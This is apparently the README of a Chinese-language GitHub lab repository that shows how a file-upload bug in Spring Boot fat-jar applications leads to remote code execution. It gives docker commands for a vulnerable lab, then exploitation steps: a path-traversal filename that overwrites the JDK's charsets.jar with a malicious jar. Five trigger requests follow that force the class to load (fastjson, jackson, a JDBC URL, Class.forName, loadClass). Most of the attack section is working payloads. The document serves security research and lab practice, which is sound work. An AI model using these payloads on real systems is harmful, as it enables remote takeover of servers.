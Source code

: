 ## spring-boot-upload-file-lead-to-rce-tricks


### 一. docker 漏洞环境搭建

```
docker pull landgrey/spring-boot-fat-jar-write-file-rce:1.2
docker run -d -p 18081:18081 landgrey/spring-boot-fat-jar-write-file-rce:1.2
```



完成后访问 http://127.0.0.1:18081/ ，界面大概如下所示：

![](https://github.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks/raw/main/images/docker.png)





### 二. 相关文章

[Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)





### 三. 常见 JDK 目录收集

欢迎提 issue 补充👏～

```
/usr/lib/jvm/java-8-oracle/jre/lib/
/usr/lib/jvm/java-1.8-openjdk/jre/lib/
/usr/lib/jvm/java-8-openjdk-amd64/jre/lib/
```





### 四. docker 漏洞环境的功能

- 文件上传功能 (默认上传到 /tmp/ 目录，可跳目录）
- 列目录功能     (列出 /tmp/ 目录下文件)





### 五. 漏洞利用条件

- 可以获得 jdk 安装的 home 目录位置
- (可收集常见 jdk 默认安装目录位置，然后使用字典枚举尝试)

- jdk 自带文件 `/jre/lib/***.jar` 没被 `Opened` 过
- (以 charsets.jar 文件举例：程序代码中不使用 `Charset.forName("GBK")` 类似的调用，默认就不会加载到 charsets.jar 文件)





### 六. 漏洞利用步骤

1. 选择上传文件 [charsets.jar](https://github.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks/raw/main/release/charsets.jar)

2. 使用上传文件功能，上传时用 burpsuite 截住数据包，filename 修改为 `../../usr/lib/jvm/java-1.8-openjdk/jre/lib/charsets.jar`

3. 上传成功后使用数据包触发漏洞

4. 漏洞触发成功会在 /tmp/ 目录产生 charsets_test_[random-string].log 样式名字的文件

5. 最后使用列目录功能查看漏洞利用是否成功





### 七. 漏洞利用场景：(5 个)

欢迎提 issue 补充👏～

#### 1. fastjson 最新版(目前是 1.2.76)默认配置场景

正常数据包：

```
POST /fastjson HTTP/1.1
Content-Type: application/json

{"name":"test"}
```

触发漏洞数据包：

```
POST /fastjson HTTP/1.1
Content-Type: application/json

{
    "x":{
        "@type":"java.nio.charset.Charset",
        "val":"500"
    }
}
```



#### 2. jackson 开启 enableDefaultTyping 场景

正常数据包：

```
POST /jackson HTTP/1.1
Content-Type: application/json

["code.landgrey.bean.User",{"name":"zhangsan","age":20,"car":{"brand":"daben","price":1000000},"secret":"Pas@5w0rd"}]
```

触发漏洞数据包：

```
POST /jackson HTTP/1.1
Content-Type: application/json

["sun.nio.cs.ext.IBM33722",{"x":"y"}]
```



#### 3. jdbc url getConnection 场景

正常数据包：

```
GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?user=root&password=123456
```

触发漏洞数据包：

```
GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?statementInterceptors=sun.nio.cs.ext.IBM33722
```



#### 4. Class forName 场景

正常数据包：

```
GET /classForName?name=code.landgrey.bean.Car
```

触发漏洞数据包：

```
GET /classForName?name=sun.nio.cs.ext.IBM33722
```



#### 5. loadClass newInstance 场景

正常数据包：

```
GET /classLoader?name=code.landgrey.bean.User
```

触发漏洞数据包：

```
GET /classLoader?name=sun.nio.cs.ext.IBM33722
```

